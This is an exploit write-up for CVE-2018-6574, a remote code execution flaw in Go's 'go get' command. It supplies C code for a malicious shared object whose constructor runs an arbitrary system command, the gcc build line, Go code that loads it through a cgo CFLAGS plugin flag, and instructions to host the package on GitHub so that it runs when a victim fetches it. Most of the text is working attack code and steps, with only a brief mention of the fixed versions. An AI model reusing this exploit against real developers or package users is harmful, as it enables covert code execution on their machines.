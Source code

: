 # CVE-2018-6574

Remote command execution in `Golang` go get command.

CVE-2018-6574 this vulnerability impacts Golang go get command and allows an attacker to gain code execution on a system installing his malicious library, this vulnerability was fixed in Go 1.8.7, 1.9.4 and 1.10rc2.

Golang will build native extensions. This can be used to pass additional flags to the compiler to gain code execution. For example, `CFLAGS` can be used.

## Exploitation:

You will need a malicious `exploit.so` file. The code below should help you with that:

```c
#include<stdio.h>
#include<stdlib.h>

static void exploit() __attribute__((constructor));

void exploit() {
    system("[YOUR CMD]");
}
```

You can build it using the following command:

```bash
gcc -shared -o exploit.so -fPIC exploit.c
```

Notice that you need to build that plugin on the same platform and architecture as the victim.

Then, you need the go code that will tell `cgo` to use your plugin:

```go
package main
// #cgo CFLAGS: -fplugin=./exploit.so
// typedef int (*intFunc) ();
// int _func(intFunc f)
// {
//      return f();
// }
// int one()
// {
//      return 1;
// }
import "C"
import "fmt"

func main() {
    f := C.intFunc(C.one)
    fmt.Println(int(C._func(f)));
}
```

Then you should host the malicious package (.so & main.go) in public Github repository.

The malicious package will executed after:

```go
go get github.com/XXXXX/XXXX
```

Run by the victim.
